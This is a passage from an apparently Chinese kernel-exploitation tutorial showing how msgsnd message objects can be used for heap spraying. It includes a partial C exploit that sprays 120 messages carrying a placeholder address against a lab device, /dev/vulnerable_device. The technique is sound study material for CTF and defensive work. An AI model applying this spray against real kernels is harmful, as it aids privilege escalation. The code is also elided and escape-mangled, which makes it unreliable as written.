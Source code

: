 另一种方式就是调用`msgsnd`函数。

⚠：使用`msgsnd`函数时，我们分配的目标`Chunk`应当大于`44`字节。

```
//gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread
#include&lt;stdio.h&gt;
#include&lt;fcntl.h&gt;
#include&lt;string.h&gt;
#include&lt;stdlib.h&gt;
#include&lt;unistd.h&gt;
#include&lt;pthread.h&gt;
#include&lt;sys/types.h&gt;
#include&lt;sys/ipc.h&gt;
#include&lt;sys/shm.h&gt;

#define BUFF_SIZE 0x60

void init()`{`
    ......
`}`

size_t user_cs, user_rflags, user_ss, user_rsp;

void save_user_status()`{`
    ......
`}`

int heap_spray_msgsnd(int fd, size_t target, size_t arg)`{`
    int new_len = BUFF_SIZE - 48;
    struct `{`
        size_t mtype;
        char mtext[new_len];
    `}` msg;

    memset(msg.mtext,0x42,new_len-1);
    memcpy(msg.mtext+56-48,&amp;arg,sizeof(long));
    memcpy(msg.mtext+56-48+(sizeof(long)),&amp;target,sizeof(long));
    msg.mtext[new_len]=0;
    msg.mtype=1; 

    int msqid=msgget(IPC_PRIVATE,0644 | IPC_CREAT);

    ioctl(fd, 0xFE03, NULL);
    ioctl(fd, 0xFE06, NULL);

    for (int i=0;i&lt;120;i++)`{`
        msgsnd(msqid,&amp;msg,sizeof(msg.mtext),0);
    `}`

    ioctl(fd, 0xFE04, NULL);
`}`

int main(int argc,char * argv[])`{`
    init();
    save_user_status();

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    heap_spray_msgsnd(fd,0x4343434343434343,0);
    return 0;
```